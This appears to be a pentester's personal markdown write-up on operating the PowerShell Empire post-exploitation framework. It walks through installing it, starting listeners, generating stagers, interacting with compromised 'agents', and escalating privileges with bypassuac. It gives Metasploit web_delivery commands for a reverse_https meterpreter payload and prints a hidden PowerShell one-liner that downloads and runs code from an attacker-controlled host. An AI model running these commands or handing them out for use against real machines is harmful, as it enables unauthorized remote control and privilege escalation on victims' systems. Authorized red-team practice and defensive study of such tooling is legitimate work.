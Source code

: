 #Empire
[Empire](https://github.com/adaptivethreat/Empire) is a "pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture."

Some links that helped me create my write-up below:

* [https://attackerkb.com/Powershell/Powershell_Empire](https://attackerkb.com/Powershell/Powershell_Empire)
* [https://enigma0x3.net/2016/03/15/phishing-with-empire/](https://enigma0x3.net/2016/03/15/phishing-with-empire/)
* [CheatSheets for various modules](https://github.com/HarmJ0y/CheatSheets)

##Install

The [getting started guide](http://www.powershellempire.com/?page_id=110) walks you through a basic install - here's the quick steps:

    git clone https://github.com/adaptivethreat/Empire.git /opt/empire
    cd /opt/empire/setup
    ./install.sh
    /opt/empire/empire.sh

I found afterwards that my fresh Ubuntu droplet from Digital Ocean coughed up this error when I ran `./empire`:

>Traceback (most recent call last):

>File "./empire", line 6, in <module>

>from OpenSSL import SSL

>ImportError: No module named OpenSSL

Once I did a `sudo apt-get install python-openssl` then everything ran like a champ.

##Launch a listener
1. Type `listeners` and hit **Enter**
2. Setup an HTTP listener (for example) with `set Host http://your.local.ip.address` (tab completion works!).  *Note:* when running this on an AWS instance I found I needed to use FQDN instead of the IP address - i.e. use ec2-1-2-3-4.us-west-2.compute.amazonaws.com instead of 1.2.3.4.
3. Type `info` and hit Enter to confirm the listener is good to go.
4. Type `run` to run it (if you need to kill it, use `list` to see the list of listeners, then do `kill 1` or whatever the number is.

P.S. - [BHIS](http://bhis.co) has a nice tutorial for [scripting the startup of Empire listeners](http://www.blackhillsinfosec.com/?p=5428).

##Configure a stager
1. Type `usestager` and then hit **Tab** to see your options. I like the simple `usestager launcher` for a simple PowerShell one-liner
2. Assign the stager to a configured listener by typing `set Listener NAME-OF_LISTENER`
3. Type `generate` to actually generate it.

##Manage connected machines
Once you get a "bite" type `agents` to see connected machines.  Then do `interact NAME-OF-MACHINE` to begin interacting with it.

##Establish credential sets
I followed [this page](http://www.powershellempire.com/?page_id=114) to figure out how to add/edit credential sets into Empire so they're easily "pluggable" into Empire modules without having to type them every time.

##Create a secondary meterpreter listener
Follow [this article](http://www.powershellempire.com/?page_id=137) for more info, but basically in the `listeners` do a `set Host http://whatever.the.host.is` and `set Type meter`.  Then type `execute` and `list` to see your new listener.

Now on your Kali/Metasploit box, run the following commands to "catch" your incoming shell:

	use exploit/multi/script/web_delivery
	unset all
	set srvhost 0.0.0.0
	set srvport 80
	set lhost MY.PUBLIC.IP.ADDRESS
	set lport 443
	set target 2
	set payload windows/x64/meterpreter/reverse_https
	exploit -j

This will give you a PowerShell one-liner with something like:

`powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://your-public-ip-address/V23fasdfg4rP5XBryb');
`
Launch the one-liner and you should be in happy shell land!

##Elevating privs
Once you've figured out a way to make your limited account a local admin, here's how you can make your victim machine connect to you *again* but this time with more privs!

1. While interacting with your agent, issue the command `bypassuac NAME-OF-LISTENER`.  So for example, my listener with my initial shell was called `test` so I issued `bypassuac test`
2. You should see a "new" agent connect to your listener, but this one has a *`*`* by it, indicating it is running w/elevated privs!!!

##Other resources:
* [Intercepting passwords with Empire and winning!](https://sensepost.com/blog/2016/intercepting-passwords-with-empire-and-winning/)